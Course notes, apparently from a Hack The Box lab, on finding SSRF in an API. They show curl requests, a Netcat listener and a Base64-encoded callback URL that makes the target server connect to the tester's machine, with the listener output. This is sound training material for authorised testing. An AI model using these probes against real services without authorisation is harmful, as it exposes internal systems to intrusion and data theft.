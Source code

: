 ```yaml
---
sticker: emoji//1f480
---
```

Server-Side Request Forgery (SSRF) attacks, listed in the OWASP top 10, allow us to abuse server functionality to perform internal or external resource requests on behalf of the server. We usually need to supply or modify URLs used by the target application to read or submit data. Exploiting SSRF vulnerabilities can lead to:

- Interacting with known internal systems
- Discovering internal services via port scans
- Disclosing local/sensitive data
- Including files in the target application
- Leaking NetNTLM hashes using UNC Paths (Windows)
- Achieving remote code execution

We can usually find SSRF vulnerabilities in applications or APIs that fetch remote resources. Our [Server-side Attacks](https://academy.hackthebox.com/module/details/145) module covers SSRF in detail.

As we have mentioned multiple times, though, we should fuzz every identified parameter, even if it does not seem tasked with fetching remote resources.

Let us assess together an API that is vulnerable to SSRF.

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target` icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target API and follow along.

Suppose we are assessing such an API residing in `http://<TARGET IP>:3000/api/userinfo`.

Let us first interact with it.


```shell-session
smoothment@htb[/htb]$ curl http://<TARGET IP>:3000/api/userinfo
{"success":false,"error":"'id' parameter is not given."}
```

The API is expecting a parameter called _id_. Since we are interested in identifying SSRF vulnerabilities in this section, let us set up a Netcat listener first.

```shell-session
smoothment@htb[/htb]$ nc -nlvp 4444
listening on [any] 4444 ...
```

Then, let us specify `http://<VPN/TUN Adapter IP>:<LISTENER PORT>` as the value of the _id_ parameter and make an API call.


```shell-session
smoothment@htb[/htb]$ curl "http://<TARGET IP>:3000/api/userinfo?id=http://<VPN/TUN Adapter IP>:<LISTENER PORT>"
{"success":false,"error":"'id' parameter is invalid."}
```

We notice an error about the _id_ parameter being invalid, and we also notice no connection being made to our listener.

In many cases, APIs expect parameter values in a specific format/encoding. Let us try Base64-encoding `http://<VPN/TUN Adapter IP>:<LISTENER PORT>` and making an API call again.


```shell-session
smoothment@htb[/htb]$ echo "http://<VPN/TUN Adapter IP>:<LISTENER PORT>" | tr -d '\n' | base64
smoothment@htb[/htb]$ curl "http://<TARGET IP>:3000/api/userinfo?id=<BASE64 blob>"
```

When you make the API call, you will notice a connection being made to your Netcat listener. The API is vulnerable to SSRF.


```shell-session
smoothment@htb[/htb]$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [<VPN/TUN Adapter IP>] from (UNKNOWN) [<TARGET IP>] 50542
GET / HTTP/1.1
Accept: application/json, text/plain, */*
User-Agent: axios/0.24.0
Host: <VPN/TUN Adapter IP>:4444
Connection: close
```

# Question
---
![](cybersecurity/images/Pasted%2520image%252020250219172102.png)

